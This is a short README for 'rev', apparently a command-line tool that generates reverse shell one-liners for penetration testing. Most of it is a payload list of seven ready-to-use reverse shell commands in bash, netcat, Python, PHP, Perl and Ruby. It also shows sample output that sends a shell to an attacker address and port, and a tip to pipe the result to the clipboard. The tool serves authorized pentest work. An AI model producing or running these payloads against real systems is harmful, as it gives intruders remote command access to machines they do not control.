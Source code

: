 # rev
Simple reverse shell one liner generator for quick pentest engagements.

## Usage

```
▶ ./rev

Usage: [IP ADDRESS] [PORT] [NUMBER OF PAYLOAD]

Payload list:
1. bash -i >& /dev/tcp/xx.x.x.x/xxxx 0>&1
2. nc -e /bin/bash xx.x.x.x xxxx
3. rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc xx.x.x.x xxxx >/tmp/f
4. python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK...
5. php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
6. perl -e 'use Socket;$i="xx.x.x.x";$p=xxxx;socket(S,PF_INET,SOCK_STREAM,getprotobyname...
7. ruby -rsocket -e'f=TCPSocket.open("xx.x.x.x",xxxx).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

```

```
▶ ./rev 192.168.0.15 4444 3

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.15 4444 >/tmp/f
```

You can pipe it to xclip to copy:

```
./rev 192.168.0.15 4444 3 | xclip -selection clipboard
```
